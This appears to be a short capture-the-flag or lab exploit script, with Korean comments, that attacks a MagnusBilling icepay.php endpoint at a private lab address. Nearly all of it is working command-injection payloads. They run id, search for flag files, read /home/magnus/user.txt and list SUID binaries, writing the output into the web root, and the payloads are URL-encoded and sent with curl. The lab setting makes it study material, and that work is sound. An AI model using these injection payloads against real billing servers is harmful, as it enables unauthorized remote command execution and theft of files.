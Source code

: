 TARGET='http://10.10.13.178/mbilling/lib/icepay/icepay.php'

# Payload 생성

# /var/www/html/는 Apache, Nginx 등 웹서버가 기본으로 사용하는 디렉토리이므로 접근하기 쉽도록 설정

# id

payload=";id > /var/www/html/mbilling/lib/id"

# find user.txt

payload=";find / -name user.txt > /var/www/html/mbilling/lib/find_user"

# user.txt

payload=";cat /home/magnus/user.txt > /var/www/html/mbilling/lib/ss"

# find root.txt

payload=";find / -name root.txt > /var/www/html/mbilling/lib/find_root"

# suid 파일 찾기

payload=";find / -perm -4000 -type f > /var/www/html/mbilling/lib/suid 2>/var/www/html/mbilling/lib/suid_err"

# URL 인코딩 처리

encoded_payload=$(python3 -c "import urllib.parse; print(urllib.parse.quote('${payload}'))")

# 디코딩 처리 확인

echo -n "${encoded_payload}" | python3 -c "import urllib.parse, sys; print(urllib.parse.unquote(sys.stdin.read()))"

# 결과 확인

curl --get --data-urlencode "payload=;cat /home/magnus/user.txt > /var/www/html/mbilling/lib/ss" "$TARGET"

http http://10.10.13.178/mbilling/lib/
